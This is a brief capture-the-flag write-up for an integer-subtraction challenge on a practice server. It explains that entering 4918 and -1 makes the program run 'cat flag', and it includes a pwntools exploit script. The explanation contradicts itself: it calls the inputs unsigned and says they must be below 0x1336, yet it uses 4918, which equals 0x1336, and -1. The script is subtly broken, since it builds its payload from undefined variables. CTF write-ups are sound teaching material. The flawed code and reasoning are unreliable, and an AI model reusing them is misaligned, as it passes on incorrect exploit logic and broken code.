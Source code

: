 This challenge takes 2 **unsigned integers** as input and checks:
`num1 < 0x1336` && `num2 < 0x1336` and in order to execute `"cat flag"`: `num1 - num2 == 0x1337`.
That means we can use a negative number so that `-` - `-` = `+`.
Convert hex to decimal and numbers 4918 and -1 give us the result we want. 

## Exploit
```python
#!/usr/bin/python3
from pwn import *

ip = 'svc.pwnable.xyz'
port = 30001
filename = './sub' # change this

def pwn():
	
	r = remote(ip, port)
	num1 = b'4918'
	num2 = b' -1'
	payload = arg1 + arg2
	r.sendlineafter(':', payload)
	print(r.recvall().decode('utf8'))

pwn()
```
